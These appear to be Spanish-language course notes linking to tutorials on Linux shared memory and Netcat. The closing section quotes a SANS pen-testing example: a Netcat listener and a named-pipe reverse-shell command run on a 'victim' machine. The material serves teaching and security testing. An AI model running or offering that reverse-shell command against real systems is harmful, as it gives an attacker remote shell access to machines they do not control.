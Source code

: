 ---------------------

# Memorias compartidas
## Uso de las funciones ftok(), shmget(), shmat() y shmctl()
https://github.com/jesusninoc/ClasesPSP/blob/master/2017-10-24.md

## Programación de memorias compartidas en Linux
https://www.jesusninoc.com/2015/07/10/programacion-de-memorias-compartidas-en-linux/

## Utilizar zonas de memoria compartida en Linux mediante WSL desde PowerShell
https://www.jesusninoc.com/2018/06/25/utilizar-zonas-de-memoria-compartida-en-linux-mediante-wsl-desde-powershell/

---------------------

# Conexiones con NC
## Enviar un vídeo MP4 entre dos Linux mediante Netcat
* https://www.jesusninoc.com/11/12/enviar-un-video-mp4-entre-dos-linux-mediante-netcat/
## Simular el funcionamiento de un servidor web
* https://www.jesusninoc.com/04/30/simular-el-funcionamiento-de-un-servidor-web-utilizando-netcat-en-linux/
## Creating a shell
* https://www.jesusninoc.com/02/26/creating-shell/
## Netcat without -e? No Problem!
* https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem#

As before, we start with a Netcat listener waiting for the inbound shell:
```Bash
skodo@pentestbox# nc -nvlp 443
```
Now, on the target machine, I inject the following commands:
```Bash
victim$ mknod /tmp/backpipe p 
victim$ /bin/sh 0</tmp/backpipe | nc pentestbox 443 1>/tmp/backpipe
```
